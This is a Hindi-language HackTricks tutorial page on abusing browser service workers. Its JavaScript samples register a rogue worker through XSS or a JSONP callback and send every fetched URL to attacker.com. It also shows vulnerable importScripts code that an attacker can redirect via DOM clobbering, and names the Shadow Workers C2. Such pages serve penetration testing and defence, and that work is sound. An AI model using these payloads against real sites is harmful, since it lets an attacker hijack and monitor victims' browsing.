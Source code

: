 # वेब सर्विस वर्कर्स का दुरुपयोग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापन देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**दी पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर** **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud) **में**।

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

सबसे महत्वपूर्ण वंशानुक्रम की खोज करें ताकि आप उन्हें तेजी से ठीक कर सकें। इंट्रूडर आपकी हमले की सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, आपके पूरे तकनीकी स्टैक, एपीआई से वेब ऐप्स और क्लाउड सिस्टम तक मुद्दे खोजता है। [**आज ही मुफ्त में इसे ट्राई करें**](https://www.intruder.io/?utm_source=referral\&utm_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## मूल जानकारी

**सर्विस वर्कर** एक स्क्रिप्ट है जो आपके ब्राउज़र द्वारा पृष्ठ से अलग रूप से पृष्ठ या उपयोगकर्ता अंतर्क्रिया की आवश्यकता नहीं है, इसलिए **ऑफलाइन और पृष्ठ की पृष्ठ क्रियाओं को बढ़ावा देता है**। सर्विस वर्कर्स पर विस्तृत जानकारी [यहाँ](https://developers.google.com/web/fundamentals/primers/service-workers) मिल सकती है। एक वेब डोमेन के भीतर सर्विस वर्कर्स का दुरुपयोग करके हमलावर विक्टिम के सभी पृष्ठों के साथ उसके इंटरैक्शन पर नियंत्रण प्राप्त कर सकते हैं।

### मौजूदा सर्विस वर्कर्स की जांच

मौजूदा सर्विस वर्कर्स की जांच **डेवलपर टूल्स** में **एप्लिकेशन** टैब के **सर्विस वर्कर्स** खंड में की जा सकती है। एक और तरीका है [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) पर जाकर एक अधिक विस्तृत दृश्य प्राप्त करना।

### पुश अधिसूचनाएँ

**पुश नोटिफिकेशन अनुमतियाँ** सीधे रूप से **सर्विस वर्कर** की क्षमता पर प्रभाव डालती हैं क्योंकि यह सर्विस वर्कर की संभावना को बिना सीधे उपयोगकर्ता अंतर्क्रिया के साथ सर्वर से संवाद करने की क्षमता पर प्रभाव डालती है। अनुमतियाँ नकारी जाती हैं, तो यह सर्विस वर्कर की संभावना को एक निरंतर खतरा प्रस्तुत करने में सीमित करती है। उल्टे, अनुमतियाँ देने से सुरक्षा जोखिम बढ़ जाते हैं क्योंकि यह संभावित दुरुपयोगों के प्राप्ति और क्रियान्वयन को सक्षम करती है।

## हमला एक सर्विस वर्कर बनाना

इस विकल्पता को शातिरता से उत्पन्न करने के लिए आपको निम्नलिखित चीजें खोजनी होगी:

* **सर्वर पर विभिन्न JS फ़ाइलें अपलोड करने** का एक तरीका और **एक XSS ताकि अपलोड की गई JS फ़ाइल का सर्विस वर्कर लोड हो**।
* **एक वंशानुक्रमित JSONP अनुरोध** जहां आप **आउटपुट को (विभिन्न JS को साथ में) मानिपुलेट कर सकते हैं** और एक **XSS** जिससे **पेलोड के साथ JSONP लोड करने** के लिए **एक दुरुपयोग** को **लोड करें**।

निम्नलिखित उदाहरण में मैं एक कोड प्रस्तुत करने जा रहा हूँ जो एक नया सर्विस वर्कर **रजिस्टर करेगा** जो `fetch` घटना को सुनेगा और **हमलावर के सर्वर को प्रत्येक फेच की यूआरएल भेजेगा** (यह कोड आपको **सर्वर पर अपलोड** करने की आवश्यकता होगी या एक **वंशानुक्रमित JSONP** प्रतिक्रिया के माध्यम से लोड करने की):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
और यह कोड है जो **कर्मी को पंजीकृत** करेगा (जिसे आपको **XSS** का दुरुपयोग करके कार्यान्वित करना चाहिए)। इस मामले में एक **GET** अनुरोध **हमलावादी** सर्वर पर भेजा जाएगा जो सूचित करेगा कि सेवा कर्मी का पंजीकरण सफल रहा या नहीं:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
एक विकल्पी JSONP इंडपॉइंट का दुरुपयोग करने के मामले में आपको मान `var sw` के अंदर डालना चाहिए। उदाहरण के लिए:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
एक **C2** है जो **सेवा कर्मचारियों का शोषण** करने के लिए समर्पित है जिसे [**Shadow Workers**](https://shadow-workers.github.io) कहा जाता है जो इन दुर्बलताओं का शोषण करने के लिए बहुत उपयोगी होगा।

**24-घंटे कैश निर्देशिका** एक दुर्भाग्यपूर्ण या संक्रमित **सेवा कर्मचारी (SW)** का जीवन सीमित करती है ज्यादातर 24 घंटे के बाद एक XSS दुरुपयोग सुधार के बाद, यदि ऑनलाइन ग्राहक स्थिति में है। दुर्भाग्यपूर्णता को कम करने के लिए, साइट ऑपरेटर SW स्क्रिप्ट का समय-से-जीवन (TTL) कम कर सकते हैं। डेवलपरों को त्वरित निष्क्रिय करने के लिए एक [**सेवा कर्मचारी किल-स्विच**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) बनाने की सलाह दी जाती है।

## DOM Clobbering के माध्यम से SW में `importScripts` का दुरुपयोग

सेवा कर्मचारी से बुलाई गई **`importScripts`** फ़ंक्शन **एक विभिन्न डोमेन से स्क्रिप्ट आयात कर सकती है**। यदि इस फ़ंक्शन को एक **पैरामीटर के साथ बुलाया जाता है जिसे एक हमलावार संशोधित कर सकता है** तो वह अपने डोमेन से एक JS स्क्रिप्ट आयात कर सकेगा और XSS प्राप्त कर सकेगा।

**यह यहाँ तक कि CSP संरक्षण को भी उल्लंघन करता है।**

**उदाहरण दुर्भाग्यपूर्ण कोड:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM Clobbering के साथ

DOM Clobbering क्या है इसके बारे में अधिक जानकारी के लिए जांचें:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

अगर SW जिसे **`importScripts`** को कॉल करने के लिए उपयोग किया जा रहा है, उस URL/domain को **एक HTML element के अंदर** है, तो इसे **DOM Clobbering के माध्यम से संशोधित करना संभव** है ताकि SW **अपने खुद के डोमेन से एक स्क्रिप्ट लोड कर सके**।

इसका उदाहरण के लिए संदर्भ लिंक देखें।

## संदर्भ

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

जो सबसे महत्वपूर्ण सुरक्षा गड़बड़ियों को खोजें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी हमले की सतह का ट्रैक करता है, प्रोएक्टिव धमकी स्कैन चलाता है, API से वेब ऐप्स और क्लाउड सिस्टम जैसे आपके पूरे टेक स्टैक पर मुद्दे खोजता है। [**यह नि: शुल्क ट्राय करें**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) आज।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित करना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स जांचें**](https://github.com/sponsors/carlospolop)!
* खोजें [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक पीएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर फॉलो करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को**।

</details>
